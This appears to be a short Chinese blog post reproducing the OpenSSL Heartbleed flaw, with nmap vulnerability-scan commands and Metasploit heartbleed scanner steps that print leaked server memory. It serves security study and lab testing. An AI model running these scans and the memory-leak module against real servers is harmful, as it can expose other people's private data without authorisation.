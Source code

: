 ```yaml
---
title: openssl心脏滴血漏洞
tags:
  - openssl
  - 漏洞复现
abbrlink: 34537
date: 2022-05-25 13:13:51
---
```


## openssl心脏滴血漏洞

心脏出血漏洞”是指openssl这个开源软件中的一个漏洞，因为该软件使用到一个叫做heartbeat(中文名称为心跳)的扩展，恰恰是这个扩展出现了问题，所以才将这个漏洞形象的称为“心脏出血”；

## 影响范围

OpenSSL 1.0.1版本

## 漏洞复现

nmap -O xxxxx 查看开放端口

nmap xxxx --script=vuln

![](https://raw.githubusercontent.com/16778738/picture/master/img/20220525132155.png)

nmap -sV -p 8443 --script ssl-heartbleed.nse xxxxxx

### msf

~~~
search heartbleed

use uxiliary/scanner/ssl/openssl_heartbleed

~~~

~~~~
设置一下verbose，让verbose为true这样我们才可以看到泄露的64kb数据

set  verbose true
~~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/20220525132725.png)

可以看到一些泄露的数据，假如这是被攻击端正在输入一些私密的数据，我们就有可能获取到这些数据了。

